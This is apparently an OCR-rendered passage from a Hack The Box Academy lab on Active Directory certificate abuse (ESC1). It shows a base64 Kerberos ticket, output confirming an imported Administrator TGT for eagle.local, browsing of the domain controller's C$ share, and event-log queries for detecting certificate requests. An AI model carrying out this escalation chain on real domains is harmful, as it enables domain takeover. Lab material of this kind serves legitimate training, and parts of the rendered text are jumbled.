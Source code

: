```powershell
      Sw4OAn3lsau8St4IY+pbzX5pM25nSjZBwjk5sv7OmWGLUO74l5DgVDwdfLKiulAt5dze4OjBez0LDPdo
      pP1+fFE0xXaYSAiccAkudm7OYScbnl7Leaz+4xrgXFWkPaOqJR+CyReovaBozcM/02Hf7klxChHQ5TP1
      4zEaf+XVqbUcv+dNL4TN1kNK90+P+CdtV7RVXdIOYDsdTkRroXxuuafLFE5zR4OvUh73/Ch/Z0jTAMbP
      2d0x7CNyqzWvJcmeoLn2Z/YjqfrvyXgSywHdpGCQ05F3S5kz1YChG7n+DyYdxhuDGBthTy82+gzz4il8
      ZOzT/01PDJ8oqWNXLDGd9j3y3Fh8mbMZ3jnuJjA2OSxSooUS+rH0f/j4hdNWgryeDHScR8U/Tm/awwv4
      7sFD5i8iK5mtn7gGpn5vzK2zoZ1jq8j++33P6sMnzNgf33l1fOeKR6ggyFKZq9WIGUJjkZ4tcTI2Ufb7
      lLbG23ycyUgqU1aouPAWBWxrCa0xm8nVcnfJOtTVlDY71N4gNx8kqDCDDfjAjz6mqrOzZAGYWHKx1/Oy
      x7zU+W3cKdTIhQh1nN9NY9Zwc/ioJfVBhKY83KZSt7yqJoTR5j7ZztJf4uXQS7EaFzUvRJKBs5xhhwGx
      UsVqGz/GM5i2J8sC7dOQj76T4nMggczbIhR6va1K/2OiVbHGvJb/U+iOfenBIeqryBXW41hyxXWGNtNO
      Tr1pEbJZDIVgrHLh3LzFDHR7zSBjxXE+D9JihuHWDy2hpR+H9HD3KE9ixkjPA5GjXj0R5ikgwdw1SvZl
      yxtLNwDmgbL3ObKsyagKcNYqaN8zky2oSA7ofGL03er+TFLqyMOBh4tEiZTGBkcroX+BpgAC8vA9CFet
      RzlZ+AQRB1+ngimkt6nLeAsdH8+pm8RnWAAtvV/2DZ984WjiDVV8WvvvNoaHt438vRcu7QT8cW/dgeF8
      wmXBJnrI5adpzo+7p0LnPtMIe/02jDgmFRQrAiYtFvhO1BLtWm3ZVe+1/dinsWneuj5APkDIfLSXR2x/
      TU3Waoko5UPjuUn0BQaKWBQQ2OvPF/m79sqz4HLRoAORHvJvCzetebdpbPpfWWdeNeeHs1/Yh2Dj0/s7
      UbQNFmj94yWRM/QcvZz9SKmBLOhp3tMTvUdpDVupliqKaYzuZieiBP/HzaHGt5DcyrsKyJcXQw9upUjz
      XWyWhPIdDOhmZ+aHMh0PMwZpELtZ5NknY2wzxguP3jrTUm1cwXPlGLWvIw4DLAtlFGnd2ladNj33filP
      aUqsWreo6RYcRkHrDmUUAUrUFP/+72DG5ms70/ncq7XhgOnHaeNg+CKU8tQ0J710HuyeVqFYWRa6nOOB
      WPFCQOSaULrrLDdJGqqtbAof4Hi1bgH3WGdtZyRkoWmF/gQR/BdE1yx1okqNnM99EjcuuHaJHy+og+x/
      LU4Ehd9uzdB4o0X2t72v9gjUJTiFRHPP3/6bo4HYMIHVoAMCAQCigc0Egcp9gccwgcSggcEwgb4wgbug
      GzAZoAMCARehEgQQKQTCgNhj3sh4yXvrBwTfeqENGwtFQUdMRS5MT0NBTKIaMBigAwIBAaERMA8bDUFk
      bWluaXN0cmF0b3KjBwMFAEDhAAClERgPMjAyMjEyMTkyMDA0NTNaphEYDzIwMjIxMjIwMDYwNDUzWqcR
      GA8yMDIyMTIyNjIwMDQ1M1qoDRsLRUFHTEUuTE9DQUypIDAeoAMCAQKhFzAVGwZrcmJ0Z3QbC2VhZ2xl
      LmxvY2Fs
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/eagle.local
  ServiceRealm             :  EAGLE.LOCAL
  UserName                 :  Administrator
  UserRealm                :  EAGLE.LOCAL
  StartTime                :  19/12/2022 21.04.53
  EndTime                  :  20/12/2022 07.04.53
  RenewTill                :  26/12/2022 21.04.53
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  KQTCgNhj3sh4yXvrBwTfeg==
  ASREP (key)              :  2EB79553702442F11E93044E3C915490

```

![](https://academy.hackthebox.com/storage/modules/176/A13/certLogin.png)

Después de una autenticación exitosa, podremos enumerar el contenido del`C$`Compartir en DC1:

PKI - ESC1

```powershell
PS C:\Users\bob\Downloads> dir \\dc1\c$

    Directory: \\dc1\c$

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        10/15/2022   6:30 PM                DFSReports
d-----        10/13/2022  11:23 PM                Mimikatz
d-----          9/1/2022   9:49 PM                PerfLogs
d-r---        11/28/2022  10:59 AM                Program Files
d-----          9/1/2022   2:02 PM                Program Files (x86)
d-----        12/13/2022  11:22 AM                scripts
d-r---          8/7/2022   9:31 PM                Users
d-----        11/28/2022  11:27 AM                Windows

```


[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}
[pki]: PS C:\Users\htb-student\Documents> $events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}[pki]: PS C:\Users\htb-student\Documents> $events[0] | Format-List -Property *Message              : Certificate Services received a certificate request.